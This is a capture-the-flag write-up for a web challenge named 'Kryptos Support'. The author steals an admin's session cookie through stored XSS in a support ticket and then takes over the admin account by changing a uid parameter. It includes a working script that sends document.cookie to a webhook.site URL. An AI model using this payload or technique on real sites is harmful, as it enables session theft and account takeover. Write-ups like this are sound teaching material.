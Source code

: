 # Kryptos Support

So we are greeted with a website with some input box, we send a message and see that admin will review ticket:

<figure><img src="../../../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

So maybe some sort of XSS where we have to steal cookie?

<figure><img src="../../../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We craft a quick cookie stealer:

```
<script>document.location='https://webhook.site/888b441e-ed74-4bba-8c87-e40f690d376a?c='+document.cookie</script>
```

And get a hit in our webhook:

<figure><img src="../../../../.gitbook/assets/image (10) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

So we capture a session cookie

{% hint style="warning" %}
The payload broke the chal and breaks the redirection lol be careful
{% endhint %}

We see the redirection to /tickets

<figure><img src="../../../../.gitbook/assets/image (12) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And then we spot /settings:

<figure><img src="../../../../.gitbook/assets/image (13) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (14) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

So we change the password and see the odd request:

<figure><img src="../../../../.gitbook/assets/image (15) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And from there it is very easy, we change uid to 1 to change the password of the admin and it works, so we can go back to /login and get the flag:

<figure><img src="../../../../.gitbook/assets/image (16) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
